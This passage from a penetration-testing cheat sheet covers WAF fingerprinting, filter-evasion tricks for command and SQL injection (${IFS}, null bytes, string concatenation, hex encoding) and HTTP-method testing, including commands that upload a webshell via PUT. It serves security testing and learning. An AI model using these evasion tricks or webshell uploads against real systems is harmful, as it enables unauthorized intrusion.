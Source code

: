 
```bash
wafw00f https://VICTIM.COM --findall # Find all WAFs which match the signatures, do not stop testing on the first one
```

If there is a AWS CloudFront you can try to hijack it using [CloudFrunt](https://github.com/MindPointGroup/cloudfrunt)

##### Avoidance  

Here are some WAF evasion tricks
If you need to do a RCE within linux, you can replace spaces by **${IFS}**

- Use null byte (%00) prior to any characters that the filter is blocking.
- Add *blank character* like new line, spaces or tab
- Perform *String Concatenation*
  > EXEC('SEL' + 'ECT 1')
- Hex Encoding
  > where name = 'root' -> where name = 726F6F74
- Strings Bypassing
  > %53eLEct
  
Resources:

- NAXSI:
  - <https://www.synacktiv.com/en/publications/bypassing-naxsi-filtering-engine.html>

##### HTTP Methods

HTTP offers a number of methods that can be used to perform actions on the web server. Many of theses methods are designed to aid developers in deploying and testing HTTP applications.

```bash
nmap -p 443 --script http-methods http://victim.com
```

References: [WSTG-CONF-06 - Test HTTP Methods](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/06-Test_HTTP_Methods)

###### Testing for HTTP PUT Method

> / / / To Finish

The HTTP PUT request method creates a new resource or replaces a representation of the target resource with the request payload.

```bash
nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'
curl --upload-file webshell.php -v --url http://192.168.126.129/test/test.txt
```

References: [WSTG-CONF-06 - Test HTTP Methods](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/06-Test_HTTP_Methods)

###### Testing for Arbitrary HTTP Methods (HTTP Verb Tampering)
